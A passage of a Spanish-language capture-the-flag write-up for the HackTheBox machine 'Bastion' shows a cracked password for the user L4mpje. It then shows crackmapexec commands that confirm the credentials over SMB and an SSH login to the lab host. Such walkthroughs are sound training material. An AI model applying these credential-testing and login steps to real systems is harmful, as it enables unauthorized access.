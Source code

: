 De los 3 usuarios encontró el resultado del hash de **L4mpje**, el cual da como contraseña a **bureaulampje** ✨

Despues de algo de tiempo muerto jugando con las herramientas que use para el *PassTheHash* no conseguí hacer funcionar las credenciales, pero con **crackmapexec** pude confirmar que si son válidas:

```bash
❱ crackmapexec smb 10.10.10.134 -u 'L4mpje' -p 'pwincorrecta?'
SMB         10.10.10.134    445    BASTION          [*] Windows Server 2016 Standard 14393 x64 (name:BASTION) (domain:Bastion) (signing:False) (SMBv1:True)
SMB         10.10.10.134    445    BASTION          [-] Bastion\L4mpje:pwincorrecta? STATUS_LOGON_FAILURE
```

```bash
❱ crackmapexec smb 10.10.10.134 -u 'L4mpje' -p 'bureaulampje'
SMB         10.10.10.134    445    BASTION          [*] Windows Server 2016 Standard 14393 x64 (name:BASTION) (domain:Bastion) (signing:False) (SMBv1:True)
SMB         10.10.10.134    445    BASTION          [+] Bastion\L4mpje:bureaulampje
```

¿Se ve la diferencia? e.e

Al no saber donde más probar las credenciales, echamos un ojo al escaneo de **nmap** que hicimos y pues sí, había algo que no habíamos probado, el puerto **22** (SSH), validemos si por ahí las credenciales nos permiten entrar: (Pues como casi nunca está en una máquina **Windows** pues ni me acordaba de él :P)

```bash
❱ ssh L4mpje@10.10.10.134
L4mpje@10.10.10.134's password: 
```

![186bash_ssh_lampjeSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bastion/186bash_ssh_lampjeSH.png)

BOOOM! Tamos dentro del sistema como el usuario **L4mpje** :o

...

Acá ya podemos borrar las monturas, ya que no nos van a ser de utilidad (espero que no :P)

```bash
❱ umount /mnt/vhd
❱ umount /mnt/Backups
```
